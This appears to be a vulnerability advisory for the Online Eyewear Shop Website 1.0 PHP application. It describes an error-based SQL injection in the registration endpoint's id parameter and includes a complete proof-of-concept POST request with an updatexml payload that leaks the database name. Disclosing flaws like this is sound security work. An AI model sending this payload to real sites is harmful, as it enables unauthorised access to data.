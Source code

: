 ## Online Eyewear Shop Website has a front-end SQL injection vulnerability

## Affected version: 
Online Eyewear Shop Website - 1.0

## Software:
https://www.sourcecodester.com/php/16089/online-eyewear-shop-website-using-php-and-mysql-free-download.html

## Vulnerability File:
/oews/classes/Users.php?f=registration

## Description:
The online eyewear store website 1.0 has a SQL injection attack in the id parameter in the route /oews/classes/Users.php?f=registration. Attackers can exploit this vulnerability to directly obtain sensitive information from the server.

Status: CRITICAL

POC
```
POST /oews/classes/Users.php?f=registration HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------253095177828050286912619499488
Content-Length: 1219
Origin: http://localhost
Connection: close
Referer: http://localhost/oews/?p=user
Cookie: PHPSESSID=4bo37p217s2osfnh7ovs48s6p9
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------253095177828050286912619499488
Content-Disposition: form-data; name="id"

1' and updatexml(1,concat(0x7e,(database())),3)-- q
-----------------------------253095177828050286912619499488
Content-Disposition: form-data; name="firstname"

Mark
-----------------------------253095177828050286912619499488
Content-Disposition: form-data; name="middlename"

D
-----------------------------253095177828050286912619499488
Content-Disposition: form-data; name="lastname"

Cooper
-----------------------------253095177828050286912619499488
Content-Disposition: form-data; name="gender"

Male
-----------------------------253095177828050286912619499488
Content-Disposition: form-data; name="email"

mcooper@mail.com
-----------------------------253095177828050286912619499488
Content-Disposition: form-data; name="contact"

0912356498
-----------------------------253095177828050286912619499488
Content-Disposition: form-data; name="password"


-----------------------------253095177828050286912619499488
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------253095177828050286912619499488--
```

Get the database name directly through the error report: oews_db

![CleanShot 2025-03-18 at 13 30 53@2x](https://github.com/user-attachments/assets/581f0a52-a3b1-4b3a-9101-c0004c591db2)

## Code Analysis
The id parameter is controllable and directly introduced into the SQL statement, causing a SQL injection vulnerability.
![CleanShot 2025-03-18 at 13 31 34@2x](https://github.com/user-attachments/assets/80d82932-c85a-4a25-9922-28ad09f7f866)

